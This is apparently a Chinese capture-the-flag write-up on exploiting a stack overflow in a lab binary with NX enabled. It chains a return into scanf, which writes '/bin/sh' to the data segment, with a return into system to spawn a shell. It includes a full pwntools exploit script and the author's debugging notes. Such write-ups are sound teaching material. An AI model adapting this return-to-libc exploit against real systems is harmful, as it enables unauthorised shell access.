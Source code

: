 这题溢出点应该是在ShowInfo里面。。  
开了NX选项，栈上啥也执行不了。。需要去找system

刚开始有点迷惘，system参数是指向字符串的地址，而非字符串本身
栈上数据可写，但栈上的地址根本不固定，咋办咯？  
z同学说这不有个scanf吗。。然后就懂了

要先跳到scanf去把/bin/sh放到地址固定的任意地方，比如数据段  
再跳到system，而scanf多少字节才溢出呢？  
pattern.py测试出来是140  
  
进scanf之后可以用finish来迅速地跳到return（这是一个可以快速结束函数的好办法~~~  

```python
from pwn import *  
p=process('./pwn1')  
r=raw_input()  
scanf_addr=p32(0x80484f0)  
sys_addr=p32(0x80484b0)  
format_addr=p32(0x804888f)  
data_addr=p32(0x804a034)  
p.recvuntil('e:')  
p.sendline('a'*140+scanf_addr+sys_addr+format_addr+data_addr)  
p.recvuntil(':')  
p.sendline('1')  
p.sendline('/bin/sh\x00')  
p.interactive()  
```
刚开始写的是p.sendline('a'*140+scanf_addr+ '1'*4 +format_addr+data_addr)  
以为中间那个地址无所谓，先这样再去溢出scanf跳system即可  
然而这样子就会报0x31313131无法访问的错，因为jmp到scanf之后，栈顶这个东西就直接被当成scanf的eip去返回了  
改了之后，意外发现可以直接跳system没有问题（不然似乎需要跳add esp去抬栈的）。。这个似乎跟参数个数有关~  
莫名的就getshell了~开心  
